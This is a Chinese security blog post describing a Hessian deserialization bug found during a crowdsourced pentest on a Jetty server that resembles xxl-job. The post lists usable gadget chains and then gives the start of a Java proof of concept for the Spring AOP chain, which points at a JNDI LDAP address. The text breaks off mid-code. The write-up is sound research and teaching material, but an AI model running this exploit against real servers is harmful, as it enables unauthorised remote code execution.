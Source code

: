 title: 记一次实战的hessian反序列化
tags:
  - 反序列化
categories:
  - java
author: bmth
top_img: 'https://img-blog.csdnimg.cn/1e427f5f408d42d9a5e5ce54fc554a6e.png'
cover: 'https://img-blog.csdnimg.cn/1e427f5f408d42d9a5e5ce54fc554a6e.png'
date: 2023-03-07 18:12:00
---
![](https://img-blog.csdnimg.cn/1e427f5f408d42d9a5e5ce54fc554a6e.png)

哎，今年怕是连厂都进不了了，有没有人收留我啊，混口饭吃~

## hessian反序列化
在某公司实习的时候参与了众测项目，扫到了一个很奇怪的站，中间件为jetty
![](https://img-blog.csdnimg.cn/6ea915684dca46859464aa4955667eaf.png)

随便POST一个参数报错，发现是直接对POST参数进行反序列化，看到`HessianInput.readObject`就懂了，hessian可以打无依赖链，也可以打Rome、XBean、Resin、SpringPartiallyComparableAdvisorHolder等等，测试发现是windows操作系统

查找类的相关信息
![](https://img-blog.csdnimg.cn/366cbe37921d421c89d403215c7dbb2d.png)

发现跟 [https://gitee.com/xuxueli0323/xxl-job](https://gitee.com/xuxueli0323/xxl-job) 这个项目很像，以前是出过一次hessian反序列化漏洞的：[xxl-job api未授权Hessian2反序列化](https://xz.aliyun.com/t/8456)，使用的是SpringPartiallyComparableAdvisorHolder这条链

### SpringPartiallyComparableAdvisorHolder链
利用条件：存在 org.springframework:spring-aop 依赖

具体就不分析了，主要是`HotSwappableTargetSource.hashcode()`使得`p.hash == hash`、`XString.equals()`触发tostring()和反射的调用
poc：
```java
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;

public class Hessian_SpringPartiallyComparableAdvisorHolder {
    public static void main(String[] args) throws Exception {
        String jndiUrl = "ldap://127.0.0.1:6666/";
        SimpleJndiBeanFactory bf = new SimpleJndiBeanFactory();
        bf.setShareableResources(jndiUrl);

        setFieldValue(bf, "logger", new NoOpLog());
```